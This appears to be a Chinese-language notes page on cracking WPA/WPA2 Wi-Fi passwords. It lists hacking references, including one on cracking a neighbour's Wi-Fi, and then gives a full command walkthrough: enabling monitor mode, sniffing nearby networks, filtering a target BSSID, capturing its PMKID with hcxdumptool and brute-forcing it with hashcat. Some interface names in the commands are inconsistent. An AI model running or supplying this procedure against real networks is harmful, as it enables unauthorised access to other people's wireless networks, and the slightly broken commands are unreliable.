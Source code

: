 * 参考
  * <https://github.com/brannondorsey/wifi-cracking>
  * <https://github.com/conwnet/wpa-dictionary>
  * [用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码](https://www.cnblogs.com/diligenceday/p/6359661.html)
  * [aircrack & hashcat 非字典高速破解目标无线密码](https://klionsec.github.io/2015/04/14/aircrack-hascat/#menu)
  * [知乎 - 用aircrack-ng破解 wifi 密码](https://zhuanlan.zhihu.com/p/34829252)
  * [Easily Assessing Wireless Networks with Kali Linux](https://blog.rapid7.com/2013/05/22/easily-assessing-wireless-networks-with-kali-linux/)
  * [How to Hack WPA/WPA2 WiFi with Kali Linux](https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux)
    * **很详细，从kali安装开始，多图预警**
  * [How To Hack WPA/WPA2 Wi-Fi With Kali Linux & Aircrack-ng](http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)
  * [How to Hack WiFi Password Easily Using New Attack On WPA/WPA2](https://thehackernews.com/2018/08/how-to-hack-wifi-password.html)
  * []()


#### 获取 PMKID ，而不需要像老的方法（截获4次握手包）

* 参考
  * [How To Capture WPA/WPA2 PMKID Kali Linux 2018.4](https://online-it.nu/how-to-attack-wpa-wpa2-pmkid-kali-linux-2018-4/)


~~~
# 安装工具
apt install -y hcxdumptool hcxtools hashcat

# wlan0 进入 monitor 模式
airmon-ng check kill
airmon-ng start wlan0mon

# Kill the wpa_supplicant for wlan0
wpa_cli terminate wlan0

# Use Airodump-ng to sniff nearby networks
airodump-ng --ivs wlan0

# 嗅探到的目标BSSID加入到filter.txt 中
## Create the filtermode file and enter the targets BSSID 
## Target BSSID 84:C9:B2:6A:9E:90 ESSID HonnyP01 Chanel 1
## "echo "BSSID">filter.txt"
sudo echo "84C9B26A9E90">filter.txt

# 运行 Hcxdumptool 获取目标的 PMKID，至少运行10分钟
# If an AP receives the association request packet and supports sending PMKID you will see a message “FOUND PMKID”
hcxdumptool -o cap01.pcapng -i wlan0 --filterlist=filter.txt --filtermode=2 --enable_status=1 -c 1

# 使用 hcxpcaptool 将 pcapng 文件转换供 hashcat 随后处理
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z cap01.16800 cap01.pcapng

# Crack the formated pcapng with hashcat
./hashcat -m 16800 cap01.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'
~~~
